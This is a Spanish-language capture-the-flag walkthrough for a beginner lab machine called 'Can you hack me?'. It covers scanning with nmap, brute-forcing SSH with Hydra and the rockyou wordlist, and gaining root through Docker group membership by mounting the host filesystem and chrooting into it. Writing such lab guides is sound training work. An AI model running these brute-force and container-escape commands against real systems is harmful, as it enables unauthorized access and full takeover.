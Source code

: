 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Can you hack me?

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.53
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (684).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.53
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (685).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80,3306 -v 192.168.1.53
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (686).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Antes que nada se añadió en el fichero `/etc/hosts` el dominio **canyouhackme.thl** con su correspondiente IP.

<figure><img src="../../.gitbook/assets/image (687).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos un mensaje relevante.

<figure><img src="../../.gitbook/assets/image (688).png" alt=""><figcaption></figcaption></figure>

Descubrimos un posible nombre de usuario llamado **juan** por lo que realizaremos un ataque de fuerza para poder obtener una contraseña y así poder conectarnos como descubrimos al servicio **SSH**.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.53
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.53**.

<figure><img src="../../.gitbook/assets/image (689).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **juan**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh juan@192.168.1.53
```

<figure><img src="../../.gitbook/assets/image (690).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero observamos que no podemos ejecutar sudo.

Listamos permisos **SUID** y **capabilities**, pero no tenemos nada que nos pueda ayudar.

```bash
find / -perm -4000 -user root 2>/dev/null -o -type f -exec getcap {} \; 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (693).png" alt=""><figcaption></figcaption></figure>

Verificamos los grupos a los que pertenece el usuario y observamos que forma parte del grupo **Docker**.

<figure><img src="../../.gitbook/assets/image (692).png" alt=""><figcaption></figcaption></figure>

Vamos a verificar si podemos aprovechar nuestra pertenencia al grupo **Docker**. Para más información, podemos consultar **HackTricks**, donde revisamos los detalles sobre Docker.

```bash
find / -name docker.sock 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (691).png" alt=""><figcaption></figcaption></figure>

Listamos las imágenes y confirmamos que tenemos una llamada **Alpine**.

```bash
docker images
```

<figure><img src="../../.gitbook/assets/image (694).png" alt=""><figcaption></figcaption></figure>

Con esto, ahora podemos ejecutar la imagen montando en el host y utilizando **chroot** para obtener acceso como **root**.

```bash
docker run -it -v /:/host/ alpine chroot /host/ bash
```

<figure><img src="../../.gitbook/assets/image (696).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (697).png" alt=""><figcaption></figcaption></figure>

Hemos finalizado con éxito **todas las etapas del proceso** y cumplido con todos los **requisitos**.&#x20;

¡Buena suerte en tu búsqueda de las **flags**! Recuerda prestar atención a cada detalle, examinar los archivos y servicios detenidamente, y utilizar todas las herramientas a tu alcance para encontrarlas. ¡La clave está en la perseverancia y en no dejar nada sin explorar! ¡Adelante, hacker! 💻🔍🚀

